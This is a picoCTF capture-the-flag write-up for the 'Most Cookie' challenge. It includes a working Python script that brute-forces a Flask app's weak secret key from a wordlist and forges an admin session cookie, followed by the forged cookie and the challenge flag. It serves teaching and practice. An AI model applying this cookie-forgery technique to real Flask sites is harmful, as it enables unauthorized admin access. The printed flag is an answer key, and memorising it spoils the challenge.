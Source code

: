 
# PICOCTF - Most Cookie


### Description:
> Alright, enough of using my own encryption. Flask session cookies should be plenty secure! `server.py` http://mercury.picoctf.net:18835/
### Solution:
1. Firstly, let's do some reconnaissance.

From the description, we know that this site use the Flask session to "encode" their cookies, let's first take a look at the cookie before entering any value:

```
eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Y5s-Bw.kfx9C1txle5Kuc0lujp_-C_fiAY
```

The code provided in `server.py` also worthnoticing:

```python 
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```

In the block of code above, we can see that the server will randomly choose a value in `cookie_names` as our secret_key.

```python
@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp
```

In the `main` function, if we enter any cookie provided in `cookie_names` the page will be directed to `/display`, otherwise, if we search without enter anything it will remain in the homepage or `/index.html`.

```python
@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp
```
In the `search` function, if we enter any cookie that is present in `cookie_names` we will be redirected to `/display`, ortherwise, we will be redirected to the homepage.

```python
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp
```

In the `flag` function, if our `check` variable is `admin` we will be able to see our flag, otherwise, we will be redirected to the homepaage. So our objective is to change `check` to `admin`.

2. After some researching on `Github` and `Google`, I came accross a really [cool article](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce). We can ,therefore, break the encrypted cookie into 3 parts:

```
The Session Data: eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9
```

```
The Time stamp: Y5s-Bw
```

```
The Cryptographic Hash: kfx9C1txle5Kuc0lujp_-C_fiAY
```

The session data is a Base64 encoded string, so we can decode it as follows:

```
{"very_auth":"blank"}
```
Therefore, we need to change our `session data` to `admin` and the `time stamp` can be ignored. However, the `Cryptographic Hash` needs to be dealt with.
 
 In order to understand how our `Cryptographic Hash` is created, pay a visit to [this article](https://stackoverflow.com/questions/22463939/demystify-flask-app-secret-key). In a nutshell, our `cookie` will be added with our `secret_key` and encrypted with `sha1`. So we need to find a way to figure out the `secret_key`.

 The following code will generate our `secret_key` in accordance to the provided `wordlist` and `cookie string`:

```python
import hashlib
from itsdangerous import URLSafeTimedSerializer, TimestampSigner
from flask.sessions import TaggedJSONSerializer

#the provided cookies
wordlist = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

#encoded cookie of snickerdoodle
cookie_str = "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Y5tJ4A.wdS0ZlamUFnCNQCC69Z7T1OVCfE" 

#decode function
def decode_flask_cookie(secret_key, cookie_str):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, serializer=serializer, salt=salt, signer_kwargs = signer_kwargs)
    return s.loads(cookie_str)

#decode every provided cookie to find the secret_key
session = {'very_auth': 'admin'}
for secret_key in wordlist:
    try:
        cookie = decode_flask_cookie(secret_key, cookie_str)
    except:
        continue
#Using the secret_key we can forge our new cookie
    print(URLSafeTimedSerializer(
    secret_key = secret_key,
    salt = 'cookie-session',
    serializer = TaggedJSONSerializer(),
    signer = TimestampSigner,
    signer_kwargs={
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
).dumps(session))
```

After successfully generated our `secret_key`, we can finally forge our own `cookie` using the `secret_key` and `{"very_auth":"admin"}`, the new cookie might look like this:

```
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Y5tSeQ.sntBroyYLInfPWRsGmeV661_yQk
```
3. We can then insert our cookie onto http://mercury.picoctf.net:18835/display to get our flag:

```
Flag: picoCTF{pwn_4ll_th3_cook1E5_743c20eb}
```




## Flag
```
picoCTF{pwn_4ll_th3_cook1E5_743c20eb}
```
